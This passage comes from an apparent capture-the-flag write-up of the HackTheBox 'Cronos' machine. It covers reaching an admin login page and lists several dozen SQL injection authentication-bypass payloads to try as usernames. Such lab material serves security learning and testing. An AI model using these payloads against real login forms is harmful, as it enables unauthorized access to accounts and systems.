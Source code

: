 ### *admin.cronos.htb*

![[Cronos-05.png]]

Cool. On admin.cronos.htb , we will find a login page which only contains username and password, means that we could exploit authentication function of this site.

# Exploitation
##  SQLi Bypass Login
we try login as admin:admin and admin:password, but that didn't work. we should try use SQLi attack to bypass login page. Let's google for "[SQL injection cheat sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)"

we will try this list as USERNAME:

```txt
or 1=1  
or 1=1--  
or 1=1#  
or 1=1/*  
admin' --  
admin' #  
admin'/*  
admin' or '1'='1  
admin' or '1'='1'--  
admin' or '1'='1'#  
admin' or '1'='1'/*  
admin'or 1=1 or ''='  
admin' or 1=1  
admin' or 1=1--  
admin' or 1=1#  
admin' or 1=1/*  
admin') or ('1'='1  
admin') or ('1'='1'--  
admin') or ('1'='1'#  
admin') or ('1'='1'/*  
admin') or '1'='1  
admin') or '1'='1'--  
admin') or '1'='1'#  
admin') or '1'='1'/*  
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055  
admin" --  
admin" #  
admin"/*  
admin" or "1"="1  
admin" or "1"="1"--  
admin" or "1"="1"#  
admin" or "1"="1"/*  
admin"or 1=1 or ""="  
admin" or 1=1  
admin" or 1=1--  
admin" or 1=1#  
admin" or 1=1/*  
admin") or ("1"="1  
admin") or ("1"="1"--  
admin") or ("1"="1"#  
admin") or ("1"="1"/*  
admin") or "1"="1  
admin") or "1"="1"--  
admin") or "1"="1"#  
admin") or "1"="1"/*
```
